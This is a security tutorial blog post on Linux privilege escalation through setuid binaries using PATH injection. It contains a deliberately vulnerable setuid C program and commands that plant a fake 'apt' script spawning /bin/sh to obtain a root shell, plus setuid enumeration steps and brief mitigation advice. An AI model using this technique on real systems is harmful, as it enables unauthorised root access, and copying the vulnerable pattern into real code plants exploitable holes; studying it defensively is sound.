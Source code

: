 +++
title = "Privilege escalation using setuid"
date = "2020-09-17"
author = "Aloïs Micard"
authorTwitter = "" #do not include @
cover = ""
tags = ["Security", "Privilege Escalation"]
keywords = ["", ""]
description = "How to gain root access by exploiting wrongly designed setuid executables."
showFullContent = false
+++

This blog post is part of a series around [security](/tags/security) & [privilege escalation](/tags/privilege-escalation).

---

[Setuid](https://en.wikipedia.org/wiki/Setuid) is a Unix access rights flag that allow users to run an executable 
with the file system permissions of the executable's owner.

For example the following executable:

```sh
$ stat /usr/bin/passwd
  File: /usr/bin/passwd
  Size: 63736     	Blocks: 128        IO Block: 4096   regular file
Device: 801h/2049d	Inode: 2237        Links: 1
Access: (4755/-rwsr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
```

will be executed as root (Uid 0), no matter what the current user is.
This allows un-privileged user to change their password by editing `/etc/shadow` (root owner) using passwd.

# How setuid may be exploited?

As you may already guess, being able to run process as different user may have serious implications,
especially if the executable owner is root.

It means that executables with set{g,u}id flag must be carefully designed to prevent any exploitation.
This is generally the case for executables that comes with the OS, but sometimes administrator may install / craft
exploitable executable, that will greatly help hackers escalate privileges.

Let's see how we can exploit a badly designed setuid program to gain root access.

# Exploiting a setuid executable

They are multiple ways to exploit an executable (buffer overflow, stack overflow, etc...)
in this section we will focus on one of the easiest vulnerability to exploit: path injection.

## Path injection

Path injection is a common vulnerability. It happens when an executable refer to
another one without using the full path to it. Let's take an example:

```sh
$ cat apt-updater.c
#include <stdlib.h>
#include <unistd.h>

int main() {
  setuid(0);

  system("apt update");
  system("apt upgrade -y");
  return 0;
}
```

this executable has been designed by a sysadmin to allows non-root users to update the server packages
to their latest version (very bad practice btw).

While it may look simple & secure, it has a **serious** vulnerability.

It uses the [apt](https://manpages.debian.org/buster/apt/apt.8.en.html)
executable but doesn't invoke directly `/usr/bin/apt` but rather relies on apt to be in the [PATH](https://en.wikipedia.org/wiki/PATH_(variable)).

Let's see how we can use this at our advantages by polluting the PATH.

### How does the PATH work exactly?

The PATH variable is used to lookup executables when issuing command. It is composed of directories to include
while searching, separated by a semicolon ':'.

For example: `/usr/local/bin:/usr/bin:/bin` means that executables will be searched in the following directories:

- /usr/local/bin
- /usr/bin
- /bin

The search will stop when the executable is found. It means that if apt is present in `/usr/local/bin/apt` it will not
be searched in the others directories.

### Exploiting the vulnerability

Since the executable relies on the PATH to lookup apt location, we can simply create a dummy `apt` executable script
that will open a shell (/bin/sh) and place it in a directory that will be in the PATH.

```sh
$ mkdir /tmp/foo # create random directory to put the script
$ echo /bin/sh > /tmp/foo/apt # create the script that will launch /bin/sh
$ chmod 755 /tmp/foo/apt # mark it as executable
$ PATH=/tmp/foo:$PATH /usr/local/bin/apt-updater # override the PATH variable to that it contains /tmp/foo directory & execute the vulnerable program
# id # we are root!
uid=0(root) gid=1001(creekorful) groups=1001(creekorful)
```

When the OS has look up the apt executable it searches in the following location:

- /tmp/foo

*[rest of the path]*

since we have appended /tmp/foo at first, the OS was able to find the apt executable in it
and has executed it (with root privileges since they are propagated). 

# Finding vulnerable executables

Search for files with setuid bit set:

```sh
$ find / -xdev -perm -4000 2>/dev/null
/usr/local/bin/apt-updater
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/chsh
```

here almost all executables look 'classic' ones and may not be easily vulnerable.

One executable looks interesting: `/usr/local/bin/apt-updater`, it looks manually crafted
and may have been badly designed.

It is fairly easy to determinate if the executable is vulnerable: one could simply look if it calls
other executables without using full path.

This is done easily by using [strings](https://manpages.debian.org/buster/binutils-common/strings.1.en.html)
which is a program used to extract printable characters from a file.

```sh
$ strings /usr/local/bin/apt-updater
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main
[...]
apt update
apt upgrade -y
```

It looks like apt-updater run `apt update` and `apt upgrade -y` without using full path. 
Path injection may be possible.

# How to mitigate the exploit?

The easiest way to prevent these exploits is simply by not using set{g,u}id executable at ALL.
I mean, the ones installed by default can be trusted, but you shouldn't make one.

Better & simple options are available, such as using [sudoers](https://linux.die.net/man/5/sudoers) for example.

Happy hacking!
